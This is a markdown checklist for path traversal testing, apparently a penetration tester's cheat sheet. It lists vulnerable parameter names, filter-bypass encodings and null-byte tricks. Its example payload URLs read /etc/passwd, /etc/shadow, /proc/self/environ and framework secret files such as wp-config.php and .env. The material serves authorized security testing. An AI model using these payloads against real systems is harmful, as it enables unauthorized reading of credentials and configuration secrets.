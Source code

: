 
## Path Traversal Testing Checklist

### 1. Basic Path Traversal Testing
* Identify vulnerable parameters:
* Look for parameters like `filename`, `path`, `dir`, `doc`, `file`, `img`.
  * Example:
    * `https://target.com/loadImage?filename=../../../etc/passwd`
    * `https://target.com/loadFile?file=..\..\..\windows\win.ini`
### 2. Bypassing Basic Defenses
* Using Absolute Paths:

  * Linux: `filename=/etc/passwd`
  * Windows: `filename=C:\windows\win.ini`
    
* Using Nested Traversal Sequences:

  * Variations: `....//`, `....\\`, `....\/` to bypass non-recursive filtering.
    
* URL Encoding & Double Encoding:

  * `%2e%2e%2f` (`../` encoded)
  * `%252e%252e%252f` (double-encoded `../`)
  * Other encodings: `..%c0%af`, `..%ef%bc%8f`
    
* Appending Required Paths to Bypass Filtering:

  * Example: `filename=/var/www/images/../../../etc/passwd`

* Bypassing Extension Restrictions with Null Byte:

  * `filename=../../../etc/passwd%00.png`
    
### 3. Advanced Path Traversal Testing

* Bypassing with Alternate Encodings:

  * Unicode encodings like `%u2215` (`/` alternative) or mixed encoding techniques.
    
* Testing in Different Request Methods:

  * `GET`, `POST`, `PUT`, `DELETE`.

  * Example: `POST /loadImage HTTP/1.1` with body `{ "filename": "../../../etc/passwd" }`

* Testing API Endpoints:

  * Example: `https://api.target.com/v1/files?path=../../../etc/shadow`
    
* Checking for Cloud Storage and Virtual Filesystems:

  * Try accessing `/proc/self/environ`, `/proc/self/cmdline` for containerized environments.
  * Example: `filename=/proc/self/cmdline`
    
* Testing Path Traversal in Common CMS and Frameworks:

  * WordPress: `https://target.com/wp-content/plugins/example-plugin/download.php?file=../../../wp-config.php`
  * Laravel: `https://target.com/storage/logs/../../../.env`
  * Django: `https://target.com/media/../../../settings.py`
  * Magento: `https://target.com/app/etc/../../../env.php`
  * Spring Boot (Java): `https://target.com/actuator/../../../application.properties`
